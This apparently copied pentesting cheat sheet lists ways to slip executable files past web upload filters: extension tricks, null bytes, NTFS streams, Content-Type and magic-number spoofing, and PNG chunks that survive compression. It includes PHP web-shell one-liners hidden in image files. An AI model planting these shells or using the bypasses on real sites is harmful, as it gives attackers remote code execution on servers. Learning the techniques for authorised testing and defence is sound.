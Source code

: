 Ways to bypass file type upload filtering


# Guides

1. [File Upload | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)

## File Upload General Methodology

Other useful extensions:

- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
- **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

### Bypass file extensions checks

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_

	- _file.png.php_
	- _file.png.Php5_
        
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._
        
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
        
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php, see [HTB: Falafel | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#code-execution---webshell)
    
    Copy
    
    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```
    

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
    
    1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg` `\` or you could also **introduce the payload directly** in an image: `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
    
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
        
    
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
    
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
    

### Other Tricks to check

- Find a vulnerability to **rename** the file already uploaded (to change the extension).
    
- Find a **Local File Inclusion** vulnerability to execute the backdoor.
    
- **Possible Information disclosure**:
    
    1. Upload **several times** (and at the **same time**) the **same file** with the **same name**
        
    2. Upload a file with the **name** of a **file** or **folder** that **already exists**
        
    3. Uploading a file with **“.”, “..”, or “…” as its name**. For instance, in Apache in **Windows**, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
        
    4. Upload a file that may not be deleted easily such as **“…:.jpg”** in **NTFS**. (Windows)
        
    5. Upload a file in **Windows** with **invalid characters** such as `|<>*?”` in its name. (Windows)
        
    6. Upload a file in **Windows** using **reserved** (**forbidden**) **names** such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
        
    
- Try also to **upload an executable** (.exe) or an **.html** (less suspicious) that **will execute code** when accidentally opened by victim.
    

### Special extension tricks

If you are trying to upload files to a **PHP server**, [take a look at the **.htaccess** trick to execute code](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess). If you are trying to upload files to an **ASP server**, [take a look at the **.config** trick to execute code](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-config-files).

The `.phar` files are like the `.jar` for java, but for php, and can be **used like a php file** (executing it with php, or including it inside a script...)

The `.inc` extension is sometimes used for php files that are only used to **import files**, so, at some point, someone could have allow **this extension to be executed**.